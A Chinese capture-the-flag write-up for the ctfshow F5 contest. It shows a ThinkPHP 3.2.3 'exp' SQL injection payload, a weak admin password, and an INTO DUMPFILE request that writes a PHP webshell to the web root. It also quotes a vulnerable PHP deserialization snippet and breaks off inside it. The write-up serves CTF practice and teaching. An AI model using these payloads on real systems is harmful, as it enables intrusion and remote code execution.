 ﻿---
title: ctfshow F5杯
categories: 赛题wp
---
## lastsward's website
>知识点：SQL注入写Webshell


网站是TP3的框架，在网上找到了 

弱口令爆破 admin 123456

![](https://img-blog.csdnimg.cn/20210225002841871.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

[thinkphp 3.2.3 exp注入漏洞分析](https://zhuanlan.zhihu.com/p/127208753)

Payload:?id[0]=exp&id[1]==1 or sleep(5)

Dumpfile：

[MySQL注入中的outfile、dumpfile、load_file函数详解](https://www.cnblogs.com/zztac/p/11371149.html)

![](https://img-blog.csdnimg.cn/20210225003108917.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
看到

![](https://img-blog.csdnimg.cn/2021022500311871.png#pic_center)
构造：
```
select * from game where id =2 into dumpfile
"/var/www/html/shell.php"#
```
payload:
```
http://510e80c4-677f-425c-b539-413bc7ac3ab1.chall.ctf.show:8080/index.php/Home/Game/gameinfo/?gameId[0]=exp&gameId[1]==2 into dumpfile "/var/www/html/shell.php"%23
```
先访问一下shell.php发现显示游戏名字

修改第二个游戏名字为 <?php phpinfo()?>再次利用payload,再次访问shell.php 即可

![](https://img-blog.csdnimg.cn/20210225003244482.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
## eazy-unserialize&eazy-unserialize-revenge
>知识点 ：反序列化

```bash
class Happy{ 
    public $file='flag.php'; 

    function __destruct(){ 
        if(!empty($this->file)) { 
            include $this->file; 
        } 
    } 

} 

function ezwaf($data){ 
    if (preg_match("/ctfshow/",$data)){ 
        die("Hacker !!!"); 
    } 
    return $data; 
} 
if(isset($_GET["w_a_n"])) { 
    @unserialize(ezwaf($_GET["w_a_n"])); 
```